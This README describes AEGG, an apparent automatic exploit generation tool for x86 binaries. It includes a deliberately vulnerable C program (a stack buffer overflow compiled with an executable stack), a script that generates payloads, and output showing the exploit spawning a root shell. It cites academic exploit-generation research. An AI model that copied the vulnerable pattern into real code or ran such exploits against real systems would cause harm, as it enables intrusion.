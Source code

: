 AEGG
----

AEGG is my simple automatic exploit generation tool. Now only support x86 binary.

Usage
-----

1. vi `vul.c`:
    ```
    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>

    char buf[100];

    int sample_func() {
        char name[10] = {0};
        read(0, buf, 307);
        strcpy(name, buf);
        printf("input: %s\n", name);
    }

    int main(void)
    {
        printf("Running...\n");
        sample_func();
        printf("Done.\n");
    }
    ```
2. complie `vul`:
    ```
    gcc vul2.c -o vul2 -m32 -g -z execstack
    ```
3. vi `my_aegg.py`:
    ```
    from aegg import AEGG

    binary = './vul'
    gg = AEGG(binary)

    # generating payload!
    gg.hack()

    print repr(gg.payloads)
    gg.save()
    ```


Result
------

```
$ python my_aegg.py
...
INFO    | 2016-06-18 00:10:11,717 | aegg.aegg | Start hacking ...
INFO    | 2016-06-17 23:44:43,872 | pwnlib.elf | Stack is executable!
[+] Started program './vul'
INFO    | 2016-06-17 23:44:46,974 | pwnlib.tubes.process | Started program './vul'
[*] Stopped program './vul'
INFO    | 2016-06-17 23:44:47,976 | pwnlib.tubes.process | Stopped program './vul'
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Generated!
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Completed.
$
$ (cat ./vul.exp; cat) | ./vul
Running...
input: jhh///sh/bin��1�j
                           �̀ÿ @@   @
id
uid=0(root) gid=0(root) groups=0(root)
```


Dependences
-----------

- angr
- pwntools


TODO
----

- [x] shellcode (ret2stack)
- [x] ROP (ret2libc)
- [ ] ROPgadget
- [ ] fmtstr exploit

- [ ] AEGG: inputs in exploit_gen instead of paths (for fuzzing)
- [ ] ret2stack: try every buffer


Reference
---------

[angr-doc/examples/insomnihack_aeg](https://github.com/angr/angr-doc/blob/master/examples/insomnihack_aeg/)

[(State of) The Art of War: Offensive Techniques in Binary Analysis](https://www.cs.ucsb.edu/~vigna/publications/2016_SP_angrSoK.pdf)

[AEG: Automatic Exploit Generation](http://repository.cmu.edu/cgi/viewcontent.cgi?article=1239&context=ece)

